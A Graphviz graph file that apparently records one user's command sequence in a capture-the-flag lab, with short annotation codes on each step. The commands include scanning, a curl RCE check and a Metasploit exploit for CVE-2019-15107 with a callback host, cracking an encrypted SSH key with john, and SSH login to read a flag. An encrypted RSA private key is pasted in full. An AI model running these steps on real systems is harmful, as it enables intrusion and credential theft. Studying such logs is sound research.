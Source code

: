 // creating graph for user: 71
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 A0 M0 A1 "]
	1 [label="metasploit U"]
	2 [label="metasploit U"]
	3 [label="msfconsole A2 M2 "]
	4 [label="msfconsole V2 "]
	5 [label="sudo service postgresql start U"]
	6 [label="msfdb init U"]
	7 [label="msfconsole V2 "]
	8 [label="db_nmap 172.18.1.5 V0 "]
	9 [label="help U"]
	10 [label="analyze U"]
	11 [label="show exploits A8 M8 "]
	12 [label="cd Downloads/ U"]
	13 [label="ls A10 "]
	14 [label="chmod A15 "]
	15 [label="chmod +x 47293.sh A15 "]
	16 [label="./47293.sh U"]
	17 [label="vi 47293.sh U"]
	18 [label="cd Downloads/ U"]
	19 [label="./47293.sh 47293.sh http://172.18.1.5:10000/ U"]
	20 [label="./47293.sh 47293.sh http://172.18.1.5:10000 U"]
	21 [label="sh 47293.sh 47293.sh http://172.18.1.5:10000 U"]
	22 [label="sh 47293.sh 47293.sh http://172.18.1.5:10000 U"]
	23 [label="cat 47293.sh A1 A9 A11 A12 A17 "]
	24 [label="sh 47293.sh 47293.sh http://172.18.1.5:10000 U"]
	25 [label="vim CVE-2019-15107.sh U"]
	26 [label="sh CVE-2019-15107.sh U"]
	27 [label="sh CVE-2019-15107.sh #!/bin/sh U"]
	28 [label="FLAG=f3a0c13c3765137bcde68572707ae5c0 U"]
	29 [label="URI=$1; U"]
	30 [label="echo -n Testing for RCE (CVE-2019-15107) on $URI: ; U"]
	31 [label="curl -ks $URI'/password_change.cgi' -d 'user=wheel&pam=&expired=2&old=id A1 A4 A9 A11 A12 A17 "]
	32 [label="if [ $? -eq 0 ]; then echo '033[0;31mVULNERABLE!033[0m'; else echo '033[0;32mOK! (target is not vulnerable)033[0m'; fi A10 "]
	33 [label="ls A10 "]
	34 [label="cat CVE-2019-15107.sh A1 A9 A11 A12 A17 "]
	35 [label="cat CVE-2019-15107.sh http://172.18.1.5:10000 A1 A9 A11 A12 A17 "]
	36 [label="sh CVE-2019-15107.sh http://172.18.1.5:10000 U"]
	37 [label="msfconsole V2 "]
	38 [label="exit U"]
	39 [label="msfcli U"]
	40 [label="msfconsole V2 "]
	41 [label="show exploit V8 "]
	42 [label="search CVE-2019-15107 A3 "]
	43 [label="use exploit/unix/webapp/webmin_backdoor  V8 "]
	44 [label="check A7 "]
	45 [label="set RHOSTS https://localhost:10000 A6 M6 "]
	46 [label="set RHOST https://localhost:10000 A6 "]
	47 [label="show options A5 M5 "]
	48 [label="set RHOST 172.18.1.5 A6 "]
	49 [label="show options V5 "]
	50 [label="check A7 "]
	51 [label="exploit V8 "]
	52 [label="check A7 "]
	53 [label="exploit V8 "]
	54 [label="set LHOST 0.0.0.0 V6 "]
	55 [label="exploit V8 "]
	56 [label="show A5 "]
	57 [label="show options V5 "]
	58 [label="exploit V8 "]
	59 [label="set LHOST 10.1.135.83 V6 "]
	60 [label="exploit V8 "]
	61 [label="msfconsole V2 "]
	62 [label="check A7 "]
	63 [label="exit U"]
	64 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	65 [label="set RHOST 172.18.1.5 A6 "]
	66 [label="set LHOST 10.1.135.83 V6 "]
	67 [label="check A7 "]
	68 [label="ssh 172.18.1.5 A16 "]
	69 [label="ssh 172.18.1.5:39680 A16 "]
	70 [label="ssh localhost:4444 A16 "]
	71 [label="ssh 127.0.0.1:4444 A16 "]
	72 [label="ssh 127.0.0.1 -p 4444 A16 "]
	73 [label="msfconsole V2 "]
	74 [label="use exploit/unix/webapp/webmin_backdoor  V8 "]
	75 [label="set RHOST 172.18.1.5 A6 "]
	76 [label="set LHOST 10.1.135.83 V6 "]
	77 [label="check A7 "]
	78 [label="exploit V8 "]
	79 [label="ssh 172.18.1.5 A16 "]
	80 [label="ssh kocm@172.18.1.5 A16 "]
	81 [label="ssh 172.18.1.5 A16 "]
	82 [label="vi key U"]
	83 [label="john key A14 "]
	84 [label="john .-----BEGIN RSA PRIVATE KEY----- A14 "]
	85 [label="Proc-Type: 4 U"]
	86 [label="DEK-Info: AES-128-CBC U"]
	87 [label="Ps9uCxB/vjzzEwZU+BjohF/sb/kaa+thfeYki9iFGqVQpHbPhdZU7JO2rKTU3w4k U"]
	88 [label="2OG1q9DAD07fQPpCmX5vqWAdmeaWq//2k3zRVsadFF3daPGjWs1f61j4/JqYBSDl U"]
	89 [label="yeX8g98mtBLBas7bUFuo4jVroEUaoF0fpa0Up+mOAC3rY3tsprpfofQu+uoXaRRJ U"]
	90 [label="Bq2CuS5LcqbfVfl9737XeC+DNls/AmkLmYU/1NLKp1hWSpx0/dfJu725tDOtR6zB A10 "]
	91 [label="9lS9eEPebv4V8mUNU+bsh5YQbVrVmryO9BRLBl4ZK82SO7tnyObpWfsa2jLGg4Mp U"]
	92 [label="N/jFdUnWSkA2wEgzupDZmPU6jyJ/BosOxJVkih4oQB1s9BO+HzI7oA5sDfO/gw1R U"]
	93 [label="BdC2V8RnF8i8gwppc2eenbU/PIdDTu6M2LTO4aAM5wxwKXgkTdJuUxmNH4DCFgZ+ U"]
	94 [label="/DJyNP3xqCknFLIVTBwVSsHqnHSN6ZCl8BteFdRsf6kAj6qm1/cAfL73otlGZyR7 U"]
	95 [label="5PHI1jf+WoJVaRKQLzFfaMrY0rhU6TsQTYdm2QYcSszE1fhLdXGNKpathYz1sUhe U"]
	96 [label="RPbgJfB0PuzwpzcKesh5j+AnjKQjZcG1vHnrgvDFnd5VNOOrTzdUnMA0DwwVwm2S U"]
	97 [label="vkjUvPbdIkQlNuBL0FWZl/2vHf/xWWex4Q0plLf7lRWJsCDtiKflKHL/SBFYVy0F U"]
	98 [label="TwKMZJ4885lBJfN3AG9kj4azCLK6IcAuRoxTmAtYrntQWLtDCHyaCW6dZItCtQK2 U"]
	99 [label="pghYqk7inYawVLDG9f5ej+1MYQNfScZYpQ/IEH2jfbRgQsXj7zgtS9ewQoyqBY2o U"]
	100 [label="TC+mWTFkXW5YlN9Bu1uZ2CgYQJF0Dx1ns5x3IeF+U5z56KRqaKFJPfRQgTg62m7e U"]
	101 [label="0v/8aKPlPwfmS28OtxtE96zQI3SAAy7AdwkBepz5Pk9iotqIQPk5fY68wBG67v+a U"]
	102 [label="d712Dnn4OPYaqzMTyWz/dRiWcax9bFhNV+9Gp1OoA7hhBO5daLoul3EYx54vd8N3 U"]
	103 [label="qJkjc4ljMYr9wvRRcWEhlvQV6LTk2FiYOY4tjRneLXMfsb2BUwSFDXDwDL4zVF5X U"]
	104 [label="rk6oUkbp2aFy5SgMwdlm6tc5sHVHVOLTfeyv7AvRUOaGXbbrUBw1rxgswjSO4V5q U"]
	105 [label="anC3ZW1EHY/nUmSq9myKG5rPdgFhqx7lPBb5eXSGcA+rFkxkQwbtROw73mu00IXl U"]
	106 [label="FKuYCbpmfnY0ZBxR9NVh/kRpv5VI013Mwqk2lcuJTc+mjlHOymyXAhY02j218KSm U"]
	107 [label="TleEMFlW9oXD56B21kVdPDP9McdLgC9//2pSh8sI5kJEsNd294g8ju/dDNC5kybN U"]
	108 [label="aqa9d+Nsbodr90LgBOFRdtxUeYihXLS2ZfXE5wYfTwX17ZIoFLuYamE6Og7AllVL U"]
	109 [label="uSoF68eAZXd6R9bL03s9HQvGkSZv8zaFlmK4wRVI5frYMlU5gzD5E/e6Id5X7uCQ U"]
	110 [label="pq5zI0lH1Vf4jlhYpD/PXMmULzR28OIOVrkcUeZPVlv+aIpLd6zbe8mfIEDCzH9G U"]
	111 [label="Q9Z2LPIWU200w5daHsXp/qukKdDn1CB4JinKvtLka3Q4i6EHj+Vp7bvhmFpapjdW U"]
	112 [label="/BXnD+JMm+w9ZTRsHqrXKsAEyVhM99hWoFz2k1s+Q003y/7I/0XmPETD4GJZAfqX U"]
	113 [label="WzolChBDCjWIMZ/9j5JREtzWX3s7+k32TFws/jPKzXEB21M2Szn23pkoXp+zyqT6 U"]
	114 [label="bTXmV+hQf+gS7PjVRthqPONau6on19uDDVXNeuVygP4T8H5v6kAurFVX1rvkbaSm U"]
	115 [label="sCLJmNBb/7o7QR1Hhvo7NN1z85CJr9yxC6MqLbbcv91Mhb3w1Ce2eL+QnhgE86HE U"]
	116 [label="I0lvTSHTPFgvw00pV4bypACc28X+0YjRVRFOxqZxidw256pubOjRjIHIG5n6eMYk U"]
	117 [label="W3XiLqeGN7DLwY8X6RXfqafVQmJR6j3zB/PAoSVh25eTQwl2i1rgYzo0IGcdwUxN U"]
	118 [label="KHGCl8kHWe7ks3KT4+WU9uZZAhAECaWJvLzo2Ba6dst/Ke7KEtmGwv5ExUUvfHve U"]
	119 [label="0mt+olWJFSJa072UPuHe7gWdlexqh0l59q4ohOG+zJke1u74Br9wo6KIv54IqGVS U"]
	120 [label="y2O0rVCjsin3d2h9F0Fp0Xvc3EHZD7ct2HvZEV6x3kUlfdWeHKuF+7wUeTJfSmvq U"]
	121 [label="9+LnogQTclKAVk8htnrxBQh7aPLBAyTaXACAL31bB0ZXfh0yhJX6bXIe+EVPNaf6 U"]
	122 [label="rJf/WLYf6/Lmfgv/ECF+VqdLPGkLT8dEgrajh9t2TaoU+/+mxtGXaJ7Iea9I+g9l U"]
	123 [label="22unE+jCDSQMF9IygWb8HfzBsruZ7IQ+/h7g7XDpEZrJf6+mdmbzBXLwlnnD1XG3 U"]
	124 [label="FEJ08UNnUQsuqoD+vPxunBwkFv5b/5yt0XMu9tZdXk9AW9BdasCIE1bY+au0cnTX U"]
	125 [label="rjmFQ+KmCqH5lReI0Ai3fJ8pnZ2D3/m7AV/1llNaijp9NmriqK0jiVBpnEM+uH3a U"]
	126 [label="WtUQOqd4QS2S8MwjPoBZ0hpXOY0JX95EvWhp58uOy0/o8yYSbb+bZe7g0+MJuF9R U"]
	127 [label="Rj6xI5CiBdDo83VdQHlyaUawTlv/wUpqSRc9xsK/y2dLjzQhAD+QkWbm98jrcAGX U"]
	128 [label="Tlqk1XDm0e9sNcXus5d5pnTWeCH4bnwnQDo0Ot/KljNmnG11/FXuPFnAToOq52Az U"]
	129 [label="SqV4xTHhlfTZQcjVD+Rc44JkIFTr2gzDvcLOOMwcBf232/ySokL9xuMlLVc04Jy2 U"]
	130 [label="pG3A2vBQ1t0A62BglfKCobl9JVRwFhIIh4dzevvvtCuWnXk7AhodGIVF2XnBezou U"]
	131 [label="q5ydQjEjf0ByejEAZt7EM14Ey9sHQhX83OWMb7Brqfzsfapkuplvnj1+kmIrKUaA U"]
	132 [label="ytH5k1zr7ZQ5k2FasEDPwdVjSQfOW8G3CJ8GgpFokCL+KiwfvR3mJBM5ubn0di2z U"]
	133 [label="UG2CX9gT4nU7h9RAhtu2p/F5FEGLVbX5GxJhvKP11MQqSsWI3OY3gTvG6campkyD U"]
	134 [label="r4aMTuuESZSksPLDMwgkYTvWp/qaNnVpqaSHe1p2hk2DvEhIH7eSkK9gAPBLkcJ7 U"]
	135 [label="sah7VmkiXIRvhXdcVA/QXlpG7NfOVGfm/zVDfpWPAGUrGegNb3X5Y6QTzDE4lhcK U"]
	136 [label="john --wordlist=-----BEGIN RSA PRIVATE KEY----- A14 M14 "]
	137 [label="Proc-Type: 4 U"]
	138 [label="DEK-Info: AES-128-CBC U"]
	139 [label="Ps9uCxB/vjzzEwZU+BjohF/sb/kaa+thfeYki9iFGqVQpHbPhdZU7JO2rKTU3w4k U"]
	140 [label="2OG1q9DAD07fQPpCmX5vqWAdmeaWq//2k3zRVsadFF3daPGjWs1f61j4/JqYBSDl U"]
	141 [label="yeX8g98mtBLBas7bUFuo4jVroEUaoF0fpa0Up+mOAC3rY3tsprpfofQu+uoXaRRJ U"]
	142 [label="Bq2CuS5LcqbfVfl9737XeC+DNls/AmkLmYU/1NLKp1hWSpx0/dfJu725tDOtR6zB A10 "]
	143 [label="9lS9eEPebv4V8mUNU+bsh5YQbVrVmryO9BRLBl4ZK82SO7tnyObpWfsa2jLGg4Mp U"]
	144 [label="N/jFdUnWSkA2wEgzupDZmPU6jyJ/BosOxJVkih4oQB1s9BO+HzI7oA5sDfO/gw1R U"]
	145 [label="BdC2V8RnF8i8gwppc2eenbU/PIdDTu6M2LTO4aAM5wxwKXgkTdJuUxmNH4DCFgZ+ U"]
	146 [label="/DJyNP3xqCknFLIVTBwVSsHqnHSN6ZCl8BteFdRsf6kAj6qm1/cAfL73otlGZyR7 U"]
	147 [label="5PHI1jf+WoJVaRKQLzFfaMrY0rhU6TsQTYdm2QYcSszE1fhLdXGNKpathYz1sUhe U"]
	148 [label="RPbgJfB0PuzwpzcKesh5j+AnjKQjZcG1vHnrgvDFnd5VNOOrTzdUnMA0DwwVwm2S U"]
	149 [label="vkjUvPbdIkQlNuBL0FWZl/2vHf/xWWex4Q0plLf7lRWJsCDtiKflKHL/SBFYVy0F U"]
	150 [label="TwKMZJ4885lBJfN3AG9kj4azCLK6IcAuRoxTmAtYrntQWLtDCHyaCW6dZItCtQK2 U"]
	151 [label="pghYqk7inYawVLDG9f5ej+1MYQNfScZYpQ/IEH2jfbRgQsXj7zgtS9ewQoyqBY2o U"]
	152 [label="TC+mWTFkXW5YlN9Bu1uZ2CgYQJF0Dx1ns5x3IeF+U5z56KRqaKFJPfRQgTg62m7e U"]
	153 [label="0v/8aKPlPwfmS28OtxtE96zQI3SAAy7AdwkBepz5Pk9iotqIQPk5fY68wBG67v+a U"]
	154 [label="d712Dnn4OPYaqzMTyWz/dRiWcax9bFhNV+9Gp1OoA7hhBO5daLoul3EYx54vd8N3 U"]
	155 [label="qJkjc4ljMYr9wvRRcWEhlvQV6LTk2FiYOY4tjRneLXMfsb2BUwSFDXDwDL4zVF5X U"]
	156 [label="rk6oUkbp2aFy5SgMwdlm6tc5sHVHVOLTfeyv7AvRUOaGXbbrUBw1rxgswjSO4V5q U"]
	157 [label="anC3ZW1EHY/nUmSq9myKG5rPdgFhqx7lPBb5eXSGcA+rFkxkQwbtROw73mu00IXl U"]
	158 [label="FKuYCbpmfnY0ZBxR9NVh/kRpv5VI013Mwqk2lcuJTc+mjlHOymyXAhY02j218KSm U"]
	159 [label="TleEMFlW9oXD56B21kVdPDP9McdLgC9//2pSh8sI5kJEsNd294g8ju/dDNC5kybN U"]
	160 [label="aqa9d+Nsbodr90LgBOFRdtxUeYihXLS2ZfXE5wYfTwX17ZIoFLuYamE6Og7AllVL U"]
	161 [label="uSoF68eAZXd6R9bL03s9HQvGkSZv8zaFlmK4wRVI5frYMlU5gzD5E/e6Id5X7uCQ U"]
	162 [label="pq5zI0lH1Vf4jlhYpD/PXMmULzR28OIOVrkcUeZPVlv+aIpLd6zbe8mfIEDCzH9G U"]
	163 [label="Q9Z2LPIWU200w5daHsXp/qukKdDn1CB4JinKvtLka3Q4i6EHj+Vp7bvhmFpapjdW U"]
	164 [label="/BXnD+JMm+w9ZTRsHqrXKsAEyVhM99hWoFz2k1s+Q003y/7I/0XmPETD4GJZAfqX U"]
	165 [label="WzolChBDCjWIMZ/9j5JREtzWX3s7+k32TFws/jPKzXEB21M2Szn23pkoXp+zyqT6 U"]
	166 [label="bTXmV+hQf+gS7PjVRthqPONau6on19uDDVXNeuVygP4T8H5v6kAurFVX1rvkbaSm U"]
	167 [label="sCLJmNBb/7o7QR1Hhvo7NN1z85CJr9yxC6MqLbbcv91Mhb3w1Ce2eL+QnhgE86HE U"]
	168 [label="I0lvTSHTPFgvw00pV4bypACc28X+0YjRVRFOxqZxidw256pubOjRjIHIG5n6eMYk U"]
	169 [label="W3XiLqeGN7DLwY8X6RXfqafVQmJR6j3zB/PAoSVh25eTQwl2i1rgYzo0IGcdwUxN U"]
	170 [label="KHGCl8kHWe7ks3KT4+WU9uZZAhAECaWJvLzo2Ba6dst/Ke7KEtmGwv5ExUUvfHve U"]
	171 [label="0mt+olWJFSJa072UPuHe7gWdlexqh0l59q4ohOG+zJke1u74Br9wo6KIv54IqGVS U"]
	172 [label="y2O0rVCjsin3d2h9F0Fp0Xvc3EHZD7ct2HvZEV6x3kUlfdWeHKuF+7wUeTJfSmvq U"]
	173 [label="9+LnogQTclKAVk8htnrxBQh7aPLBAyTaXACAL31bB0ZXfh0yhJX6bXIe+EVPNaf6 U"]
	174 [label="rJf/WLYf6/Lmfgv/ECF+VqdLPGkLT8dEgrajh9t2TaoU+/+mxtGXaJ7Iea9I+g9l U"]
	175 [label="22unE+jCDSQMF9IygWb8HfzBsruZ7IQ+/h7g7XDpEZrJf6+mdmbzBXLwlnnD1XG3 U"]
	176 [label="FEJ08UNnUQsuqoD+vPxunBwkFv5b/5yt0XMu9tZdXk9AW9BdasCIE1bY+au0cnTX U"]
	177 [label="rjmFQ+KmCqH5lReI0Ai3fJ8pnZ2D3/m7AV/1llNaijp9NmriqK0jiVBpnEM+uH3a U"]
	178 [label="WtUQOqd4QS2S8MwjPoBZ0hpXOY0JX95EvWhp58uOy0/o8yYSbb+bZe7g0+MJuF9R U"]
	179 [label="Rj6xI5CiBdDo83VdQHlyaUawTlv/wUpqSRc9xsK/y2dLjzQhAD+QkWbm98jrcAGX U"]
	180 [label="Tlqk1XDm0e9sNcXus5d5pnTWeCH4bnwnQDo0Ot/KljNmnG11/FXuPFnAToOq52Az U"]
	181 [label="SqV4xTHhlfTZQcjVD+Rc44JkIFTr2gzDvcLOOMwcBf232/ySokL9xuMlLVc04Jy2 U"]
	182 [label="pG3A2vBQ1t0A62BglfKCobl9JVRwFhIIh4dzevvvtCuWnXk7AhodGIVF2XnBezou U"]
	183 [label="q5ydQjEjf0ByejEAZt7EM14Ey9sHQhX83OWMb7Brqfzsfapkuplvnj1+kmIrKUaA U"]
	184 [label="ytH5k1zr7ZQ5k2FasEDPwdVjSQfOW8G3CJ8GgpFokCL+KiwfvR3mJBM5ubn0di2z U"]
	185 [label="UG2CX9gT4nU7h9RAhtu2p/F5FEGLVbX5GxJhvKP11MQqSsWI3OY3gTvG6campkyD U"]
	186 [label="r4aMTuuESZSksPLDMwgkYTvWp/qaNnVpqaSHe1p2hk2DvEhIH7eSkK9gAPBLkcJ7 U"]
	187 [label="sah7VmkiXIRvhXdcVA/QXlpG7NfOVGfm/zVDfpWPAGUrGegNb3X5Y6QTzDE4lhcK U"]
	188 [label="clear U"]
	189 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key V14 "]
	190 [label="/usr/share/john/ssh2john.py key A14 A16 "]
	191 [label="/usr/share/john/ssh2john.py key > key2 A14 A16 "]
	192 [label="john key@ A14 "]
	193 [label="john key2 A14 "]
	194 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key@ V14 "]
	195 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key2 V14 "]
	196 [label="cp key ./.ssh/id_rsa A16 "]
	197 [label="cd U"]
	198 [label="cd .ssh A16 "]
	199 [label="cat id_rsa A12 M12 A17 "]
	200 [label="ssh 10.1.17.4 A16 "]
	201 [label="ssh eve@sh 10.1.17.4 A16 M16 "]
	202 [label="ssh eve@10.1.17.4 V16 "]
	203 [label="ls A10 "]
	204 [label="openssl U"]
	205 [label="openssl rsa -in id_rsa -out key U"]
	206 [label="ls A10 "]
	207 [label="cat key A1 A9 A11 A12 A17 "]
	208 [label="mv key id_rsa U"]
	209 [label="ssh eve@10.1.17.4 V16 "]
	210 [label="ls A10 "]
	211 [label="cd top-secret/ U"]
	212 [label="ls A10 "]
	213 [label="cat flag.txt A17 M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	148 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 155 [constraint=false]
	155 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 177 [constraint=false]
	177 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 200 [constraint=false]
	200 -> 201 [constraint=false]
	201 -> 202 [constraint=false]
	202 -> 203 [constraint=false]
	203 -> 204 [constraint=false]
	204 -> 205 [constraint=false]
	205 -> 206 [constraint=false]
	206 -> 207 [constraint=false]
	207 -> 208 [constraint=false]
	208 -> 209 [constraint=false]
	209 -> 210 [constraint=false]
	210 -> 211 [constraint=false]
	211 -> 212 [constraint=false]
	212 -> 213 [constraint=false]
	rankdir=LR
}
